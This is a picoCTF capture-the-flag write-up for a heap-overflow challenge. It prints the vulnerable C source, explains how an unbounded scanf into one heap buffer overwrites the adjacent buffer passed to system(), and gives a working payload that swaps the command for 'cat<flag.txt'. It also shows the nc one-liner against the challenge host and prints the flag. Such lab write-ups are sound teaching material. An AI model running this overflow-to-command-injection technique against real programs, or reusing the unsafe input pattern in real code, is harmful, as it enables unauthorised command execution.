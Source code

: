 
---

## Information given

#### Description

This program greets you and then runs a command. But can you take control of what command it executes?

Additional details will be available after launching your challenge instance.

#### Hints
Notice how `username` and `shell` are both heap-allocated.
Offsets often hide in the memory addresses you see at runtime.
Try to overwrite what command gets executed.

---

# `Vuln.c` script

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    char *username = malloc(28);
    char *shell = malloc(28);

    printf("username at %p\n", (void *)username);
    fflush(stdout);

    printf("shell at %p\n", (void *)shell);
    fflush(stdout);

    strcpy(shell, "/bin/pwd");

    printf("Enter username: ");
    fflush(stdout);

    scanf("%s", username);

    printf("Hello, %s. Your shell is %s.\n", username, shell);
    system(shell);
    fflush(stdout);

    return 0;
}
```

Vulnerabilities identified:

1. **Buffer Overflow in `scanf`**: The `scanf("%s", username)` call doesn't check bounds, allowing us to write beyond the allocated 28-byte buffer.

2. **Adjacent Memory Layout**: Both `username` and `shell` buffers are allocated on the heap with `malloc(28)`, making them adjacent in memory.

3. **Command Execution**: The program executes `system(shell)`, giving us a path to arbitrary command execution if we can control the `shell` buffer.

#### Payload

```bash

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat<flag.txt

```

  

This payload:

- Uses 48 'A's to overflow into the `shell` buffer
- Replaces the shell command with `cat<flag.txt`
- Uses input redirection to avoid spaces

### Exploitation

```bash

python3 -c "print('A' * 48 + 'cat<flag.txt')" | nc saffron-estate.picoctf.net 51668

```

  

**Output**:

```

username at 0x93342a0

shell at 0x93342d0

Enter username: picoCTF{us3rn4m3_2_sh3ll_809f901a}Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat<flag.txt. Your shell is cat<flag.txt.

```


## Flag

The flag is: `picoCTF{us3rn4m3_2_sh3ll_809f901a}`.
  
---
